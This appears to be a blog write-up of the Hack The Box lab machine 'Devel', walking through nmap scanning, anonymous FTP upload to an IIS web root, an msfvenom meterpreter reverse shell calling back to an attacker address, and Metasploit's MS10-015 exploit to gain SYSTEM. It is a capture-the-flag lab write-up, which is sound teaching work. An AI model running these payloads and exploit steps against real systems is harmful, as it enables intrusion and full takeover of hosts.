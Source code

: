 ```yaml
---
title: Devel
published: true
layout: post
---
```


<br />

---------------
Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.  

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/Ie03IcEDoi0?si=PrRoQQaHvXo0S6ts" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Devel/1.png)

<br />
<br />
<br />

There are **2 open ports**:
+ **21/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Devel/2.png)

<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp Microsoft ftpd**
+ **80/tcp Microsoft IIS httpd 7.5**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

This machine is quite easy, we only have to perform some good enumeration and think logically. **FTP will be our best friend** in this machine.

<br />

The first thing that we will notice when checking the performed enumeration is that **FTP allows anonymous login**. We can connect to it by running `ftp anonymous@10.10.10.5` and **providing no password** when asked to. There is no relevant information in these server, however, we can see some files related to IIS, which is found in the web server:

<br />

![](/assets/Devel/3.png)

<br />
<br />
<br />

With this information, we can assume that this directory contains the **files that the web server is representing**, so we can try uploading a test file to see if it works:

![](/assets/Devel/4.png)

<br />

![](/assets/Devel/5.png)

<br />
<br />
<br />

We can now try to see if this **file is accessible from the web server**:

```bash
curl http://10.10.10.5/test.aspx
```

![](/assets/Devel/6.png)

<br />
<br />
<br />

Great, it did work, now we only have to **upload a reverse shell** to gain access to this machine, let's create the **reverse shell**, we just have to **visit the site for the reverse shell to work**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 --platform windows -f aspx -o revshell.aspx
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.16.9; set LPORT 4444; run"
curl http://10.10.10.5/revshell.aspx #In another tab
```

![](/assets/Devel/7.png)

<br />

![](/assets/Devel/8.png)

<br />
<br />
<br />

Great, we have obtained a reverse shell as a non-privileged user, however we **can not access the flags yet**.

<br />

---

<br />

### Privilege Escalation

From here, we can start enumerating the machine to see how we can escalate privileges.

<br />

We have some **sensitive privileges** (*SeImpersonatePrivilege* and *SeAssignPrimaryTokenPrivilege*), however I tried using some types of Potatoes but it didn't work.

![](/assets/Devel/9.png)

<br />
<br />
<br />

We can use the **exploit suggester** to see if there is any kernel exploit that we can leverage, so let's **background the Metasploit session** and run it, we will find :

```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![](/assets/Devel/10.png)

<br />
<br />
<br />

We can start trying these exploits one by one, until we end up trying the **MS10-015**, which works:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

![](/assets/Devel/11.png)

<br />
<br />
<br />

Great, we have **NT AUTHORITY\SYSTEM privileges**, let's print the flags to finish the machine:

```bash
shell
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

![](/assets/Devel/12.png)

<br />
<br />
<br />
